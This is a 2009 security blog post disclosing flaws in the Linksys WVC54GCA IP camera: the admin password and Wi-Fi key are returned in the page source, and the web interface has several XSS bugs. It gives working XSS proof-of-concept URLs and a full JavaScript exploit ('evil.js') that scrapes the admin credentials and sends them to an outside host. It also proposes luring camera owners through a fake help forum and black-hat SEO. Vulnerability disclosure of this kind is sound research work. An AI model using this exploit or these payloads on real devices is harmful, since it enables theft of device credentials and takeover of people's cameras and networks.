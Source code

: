 ```yaml
---
title: Hacking Linksys IP Cameras (pt 4)
author: adrian-pastor
date: Sat, 25 Apr 2009 03:28:38 GMT
template: post.jade
category: fucked
---
```


_This article is a continuation of the following GNUCITIZEN articles, which include an introduction to the topic and also some initial observations: [Hacking Linksys IP Cameras (pt 1)](/blog/hacking-linksys-ip-cameras-pt-1/), [Hacking Linksys IP Cameras (pt 2)](/blog/hacking-linksys-ip-cameras-pt-2/), [Hacking Linksys IP Cameras (pt 3)](/blog/hacking-linksys-ip-cameras-pt-3/)._

There are two types of vulnerabilities I will be releasing today: disclosure of credentials in client-side source code and multiple XSS.

### Disclosure of Credentials in Client-side Source Code

As a consumer of embedded products, I find highly frustrating to see how many devices' web interfaces return passwords back to the browser within HTML source code. I've also seen similar problems in some corporate appliances, but is not such as common problem within the enterprise realm.

Visiting the change admin password page:

    /adm/file.cgi?next_file=pass_wd.htm

    Causes the current admin password to be returned (just view the source code with your browser):

    <input type="password" size="8" maxlength="64" name="admpw" value="**C4mP4ssw0rd**" onKeyDown="chkPsize(this.value.length,64,msg_bigpw)"></pre>`

    Visiting the "Wireless Security Page":

    /adm/file.cgi?next_file=Wsecurity.htm

    Causes the Wi-Fi WEP/WPA/WPA2 encryption key to be returned to the browser:

    <input type="text" name="psk" size="24" maxlength="63" value="**mywirelesskey**">

    Obviously this is bad news, as it means that every time the aforementioned pages are visited, credentials travel the clear (the WVC54GCA IP camera doesn't have SSL/TLS support).

    Now, I know there are people out there who might find these types of issues not worth fixing. The following is the thinking behind their reasoning.

    In the case of the admin password disclosure, some people would argue that this issue wouldn't make a difference security-wise, since the camera uses [basic authentication](http://en.wikipedia.org/wiki/Basic_access_authentication) which transmits credentials in the clear (base64 encoding) anyway.

    In the case of the wireless encryption key disclosure, some individuals point out that if you can sniff the Wi-Fi encryption key, it means that either 1) you're already part of the wireless network which means you must already know the key, or 2) you are part of the network via an ethernet connection which means that you don't need the wireless key at all.

    So why fix these issues then? Well, think of client-side attacks for instance. If you keep reading I'll show you how you can (for instance) use XSS to steal the admin password from the aforementioned page. If the admin password wasn't returned by the web interface, this attack would not be possible, despite basic authentication being used by the camera.

    ### Several XSS bugs

    Yes, XSS is the roach of the Internet, it's everywhere and we can't seem to be able to get rid of it! Of course, Linksys IP cameras are no exception. Finding XSS vulns requires virtually no skills (unless you are trying to bypass a strict filter logic). Also, hunting for XSS vulns can be kind of boring. As pdp usually says, "it's not finding XSS bugs which is interesting, but what you can do with it". I couldn't agree more.

    Boring PoCs:

    /main.cgi?next_file=%3Cimg%20src%3dx%20onerror%3dalert(1)%3E
    /img/main.cgi?next_file=%3Cimg%20src%3dx%20onerror%3dalert(1)%3E
    /adm/file.cgi?next_file=%3Cscript%3Ealert(1)%3C/script%3E
    /adm/file.cgi?todo=xss&this_file=%3cscript%3ealert(1)%3c/script%3e</pre>`

    XSS bug #1 works regardless of the authentication state of the victim user. The rest do require the victim user to be logged-in for the injected JS to run within the context of the camera's domain sandbox.

    As you can see in the first two XSS vulns, we use `img` tags, rather then `script` tags, due to closing `script` tags being filtered. Once again, the developers have chosen to perform filtering against some parameters, albeit poor filtering.

    #### Admin Password theft XSS PoC

    The following is the PoC exploit which steals the admin user's password.

    // **evil.js** : malicious JS file, typically located on attacker's site
    // payload description: steals Linksys WVC54GCA admin password via XSS
    // tested on FF3 and IE7
    // based on code from developer.apple.com
    function loadXMLDoc(url) {
    	req = false;
        	// branch for native XMLHttpRequest object
        	if(window.XMLHttpRequest && !(window.ActiveXObject)) {
        		try {	
    			req = new XMLHttpRequest();
            	} 
    		catch(e) {
    			req = false;
            	}
        	} 
        	// branch for IE/Windows ActiveX version	
    	else if(window.ActiveXObject) {
           		try { 
            		req = new ActiveXObject("Msxml2.XMLHTTP");
          		} 
    		catch(e)  {
            		try {
              			req = new ActiveXObject("Microsoft.XMLHTTP");
            		} 
    			catch(e) {
              			req = false;
            		}
    		}
        	}
    	if(req) {
    		req.onreadystatechange = processReqChange;
    		req.open("GET", url, true);
    		req.send("");
    	}
    }
    // end of loadXMLDoc(url)

    function processReqChange() {
       	// only if req shows "loaded"
        	if (req.readyState == 4) {
            	// only if "OK"
            	if (req.status == 200) { 
    			// dirty credentials-scraping code
    			var bits=req.responseText.split(/\"/);	
    			var gems="";
    			for (i=0;i<bits.length;++i) { 
                                    if(bits[i]=="adm" && bits[i+1]==" value=") {      
                                   		gems+="login="; 
    					gems+=bits[i+2];
                                    }
                                    if(bits[i]=="admpw" && bits[i+1]==" value=") {      
                                           	gems+='&password='; 
    					gems+=bits[i+2];    
                                    }
    			}
    			alert(gems); // this line is for demo purposes only and would be removed in a real attack
    			c=new Image();
    			c.src='http://google.com/x.php?'+gems; // URL should point to data-theft script on attacker's site
            	} 
        	}
    }

    var url="/adm/file.cgi?next_file=pass_wd.htm";
    loadXMLDoc(url);

    http://192.168.1.115/adm/file.cgi?next_file=%3cscript%20src=http://evil.foo/**evil.js**%3e%3c/script%3e

If you capture the traffic while testing the exploit against yourself you will see the admin login and password being sent to google.com:

<div class="screen">![Screenshot eth1 Capturing Wireshark 1](/files/2009/04/screenshot-eth1-capturing-wireshark1.png "Screenshot eth1 Capturing Wireshark 1")</div>

#### Attack Requirements

In order for this exploit to work, the camera admin user must be logged in when the attack occurs. This means that a bit of social engineering is required. For instance, the attacker could setup a forum to help users of the WVC54GCA camera by providing tips, FAQs, etc. If the attacker is serious he could use [black hat SEO](http://www.timesonline.co.uk/tol/driving/article754974.ece) and ad campaigns such as Google AdWords to attract Linksys camera users to visit the site containing the malicious XSS URLs. You get the idea!

### Testing Info

All Disclosure of Credentials and XSS vulnerabilities successfully tested on:

* WVC54GCA
* Firmware V1.00R22 and V1.00R24 (latest available as on 23rd April 2009)
